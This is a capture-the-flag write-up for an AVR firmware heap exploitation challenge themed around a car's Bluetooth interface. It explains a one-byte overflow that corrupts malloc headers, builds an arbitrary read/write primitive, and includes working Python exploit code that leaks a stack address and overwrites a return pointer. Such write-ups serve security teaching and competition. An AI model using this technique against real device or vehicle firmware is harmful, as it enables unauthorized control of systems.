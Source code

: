## Bluetooth Device Manager (200)

### Description

You have a basic car model and would like to enable some extra features? That navigation with traffic should be neat. Right. It is expensive, you know. Or not, if you can access the control interface. Try bluetooth this time. We think, it could be used for purposes other than making calls and playing MP3s.

### Write-up

Another one explotation challenge, "**such heap, much pr0!**" strings in data section give a little hint that heap explotation will be involved.

Firmware implements simple menu with creating, editing and deleting of objects, which are dynamicly allocated on heap. If we will look closer to *"Modify stored device"* code you can notice that during rename new object isn't allocated. Instead previously allocated null terminated string is reused with previous size limit. When I played with inputs I noticed that we can overwrite string termination byte and one byte next after device name, which is *malloc* header of next chunk, things becomes more interesting.

In [avr-libc](https://github.com/vancegroup-mirrors/avr-libc/blob/master/avr-libc/libc/stdlib/malloc.c) repository we can find how avr allocator is working, it's quite simple comparing to allocator for x86.

Our goal here is to allocate structure with pointers to area that we can control and we can do it by manipulationg chunk sizes, as the result we will have write and read primitive.

When we create new device 3 malloc call is invoked, one for device structure (0xb size) and two calls for *key* and *name* fields with variable size. Our strategy is to create two devices (*dev0* and *dev1*) with shortest *key* and *name* fields, then free *dev0* and create new *dev2* with *key* longer than previous, in that case *dev0* freed *key* chunk won't fit new longer *key* and new chunk will be allocated right next to *dev1* *key*. Next using "buggy" *modify* option we encrease size of *dev1* *key* chunk to 0xb (device structure size), as the result this chunk will overlap with *dev2* *key* chunk, which content can modified. Now we free *dev1* and create new *dev3*, as our prediction *dev3* struc will be allocated on crafted overlapped chunk, *name* and *key* pointer will at our control which gives us read and write primitive:

```python
    new_dev(tty,"a","b")             # dev 0
    new_dev(tty,"c","d")             # dev 1
    del_dev(tty,0)                   # free dev 0
    new_dev(tty,"e","ffffffffffff")  # dev2 with key chunk in the end
    
    edit_dev(tty,1,"z0\x0b","a")     # encrease dev1 key chunk
    del_dev(tty,1)                   # free dev 1
    new_dev(tty,"g","h")             # dev3 with overlapped chunk
```

Few things left to get the flag, to make proper jump we need to know dynamic stack frame size for main function, luckly it's just stored at data section by 0x2192 address. Other thing is that we need to replace 0xDEADBEEF to 0xBAADF00D at 0x2000:

```python
    edit_dev(tty,2,"x","\x01\x01\x01"+"\x01\x20") # set ptr to 0x2001
    edit_dev(tty,2,"x","\x01\x01\x01")            # set ptrl to 0x00 via null terminator
    edit_dev(tty,3,"g",struct.pack("I",0xBAADF00D)+"\xa0\x08\x40\x06\x04\x08\x04\x20") #write 0xbaadf00d and serial config to avoid corruption
    print repr(print_all(tty))
    
    edit_dev(tty,2,"x","\x01\x01\x01"+struct.pack("H",0x2192))  # set ptr to 0x2192
    buff=print_all(tty)                           # leak leak stack frame address
    
    dl="key: "
    buff=buff[buff.find(dl)+len(dl):]
    sp=buff[buff.find(dl)+len(dl):][:2]
    sp=struct.unpack("H",sp)[0]                  # extracting stack frame address
    print "stack frame base:", hex(sp)

    edit_dev(tty,2,"x","\x01\x01\x01"+struct.pack("H",sp-0x2))
    print edit_dev(tty,3,"g",struct.pack(">H",0x182)) # set return pointer to 0x182, big endian! - flag print
```

After everithing is done properly you will be rewarded with next 200 points.
Full script can be found among files in github repository.
